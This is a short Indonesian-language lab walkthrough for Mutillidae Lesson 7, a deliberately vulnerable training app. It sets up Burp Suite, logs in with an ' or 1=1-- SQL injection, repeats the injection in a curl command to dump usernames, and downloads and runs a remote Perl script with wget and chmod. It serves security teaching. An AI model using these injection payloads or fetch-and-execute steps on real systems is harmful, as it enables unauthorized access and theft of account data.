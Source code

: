 Lesson 7
--------
- **Step 1**    : Setting networks pada mozilla yang ada di Kali Linux dengan mengisi manual proxy dan diisi HHTP Proxy `127.0.0.1` dan port `8080`
- **Step 2**    : Buka aplikasi burpsuite yang sudah ada di Kali, lalu setting `intercept is off` pada tab proxy lalu tab intercept
- **Step 3**    : Lalu klik Login pada mutillidae, lalu ketik `' or 1=1--` dan jangan lupa tambahkan spasi setelah `--` dan login
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/1.JPG)
- Lalu akan muncul hasilnya seperti pada gambar dibawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/2.JPG)
- **Step 4**    : Lalu buka aplikasi burpsuite, pada tab proxy, lalu HTTP history, buka pada host yang terdapat method get yang baru saja kita lakukan pada mutillidae
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/3.JPG)
- **Step 5**    : Lalu ketik `curl -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "10.151.36.160/mutillidae/index.php" --cookie PHPSESSID=13c43bde4b32699c9a96034fc9e26134 | grep -i "Username=" > lesson7.txt` lalu ketik `cat lesson7.txt`
- Lalu akan muncul hasilnya seperti gambar berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/4.JPG)
- **Step 6**    : Lalu ketik `wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT` lalu `mv lesson7.pl.TXT lesson7.pl` lalu `chmod 700 lesson7.pl` lalu `./lesson7.pl` dan akan muncul hasilnya seperti berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%207/6.JPG)
